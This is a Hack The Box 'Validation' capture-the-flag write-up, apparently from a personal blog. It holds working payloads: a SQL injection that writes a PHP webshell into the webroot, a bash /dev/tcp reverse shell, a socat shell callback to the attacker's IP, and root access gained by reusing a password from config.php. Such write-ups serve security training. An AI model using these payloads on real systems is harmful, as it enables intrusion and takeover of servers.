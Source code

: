 ```yaml
---
layout: post
title: Hack The Box - Validation Writeup
date: 2024-06-03 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


## Summary

While testing functionality of application on port 80 I found out that `country` parameter is vulnerable to SQL Injection. I was able to determine specific number of columns in the table using `ORDER` query. With this knowledge I was able to write files on web server via `SELECT INTO_OUTFILE`. I created `webshell.php` in the apache `webroot` and used URL encoded bash payload to get reverse shell on system. While enumerating system as user `www-data` I stumbled upon interesting file `/var/www/html/config.php`. File contains credentials for `mysql` , so I tried to reuse this password and log in as user `root`. This proved to be valid password and I got access as `root`.

___
## Reconnaissance

### Nmap

```
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration


| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.116 | **TCP**: 22, 80, 4566, 8080 |


#### Port 80

![80.png](/assets/img/Validation/80.png)


![dirsearch.png](/assets/img/Validation/dirsearch.png)

While testing functionality of application I placed single quote in the `country` parameter which resulted in error. This indicates that application could be vulnerable to SQL Injection and requires further testing. 

![sqlTest.png](/assets/img/Validation/sqlTest.png)

![sqlTestError.png](/assets/img/Validation/sqlTestError.png)

___
## Initial Foothold

### UNION-based SQL Injection

I tried to insert statement that orders results by a specific column meaning it will fail whenever the selected column does not exist. This way I was able to determine number of columns in the table. 

```
' ORDER BY 2-- //
```

This payload resulted in error which means that table does not have 2 columns. 


![orderError.png](/assets/img/Validation/orderError.png)

```
' ORDER BY 1-- //
```

![orderSuccess.png](/assets/img/Validation/orderSuccess.png)

Missing error message means that our statement was valid and we determined that table has one column. Now that we know number of columns in table we can try to write files on web server via `SELECT INTO_OUTFILE` statement. I will try to write `webshell.php` to `webroot` directory 

```
' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php" -- //
```

![burpWebshell.png](/assets/img/Validation/burpWebshell.png)

Submitting the payload we see error message which can be attributed to the fact that the query does not return any results, so we can continue in exploitation. To trigger the query we need to load the page by accessing it. To do this you can right click on the response in `Burp` choose `Show response in browser`, copy URL and paste it to your browser. 

![burpErrorAccess.png](/assets/img/Validation/burpErrorAccess.png)

Now we can access our `webshell`.

![webshell.png](/assets/img/Validation/webshell.png)

To get reverse shell on system I used URL encoded bash reverse shell. 

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.38/7003 0>&1"
```

![burpDecoder.png](/assets/img/Validation/burpDecoder.png)

After submitting URL encoded payload to `webshell` I received reverse shell connection.

![webshellPayload.png](/assets/img/Validation/webshellPayload.png)

![reverseShell.png](/assets/img/Validation/reverseShell.png)

### User.txt

![userFlag.png](/assets/img/Validation/userFlag.png)

### Upgrading TTY using socat

On victim machine:
```
/usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.38:4444
```

On kali:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

![upgradeTTY.png](/assets/img/Validation/upgradeTTY.png)

_____
## Privilege Escalation

### System Enumeration

![config.png](/assets/img/Validation/config.png)

```
uhc : uhc-9qual-global-pw
```

#### Linpeas

![linpeas1.png](/assets/img/Validation/linpeas1.png)

![linpeas2.png](/assets/img/Validation/linpeas2.png)

### Logging as root

I was able to log in as root using password found in `config.php`.

```
root : uhc-9qual-global-pw
```

![escalation.png](/assets/img/Validation/escalation.png)

___
## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Validation/rootFlag.png)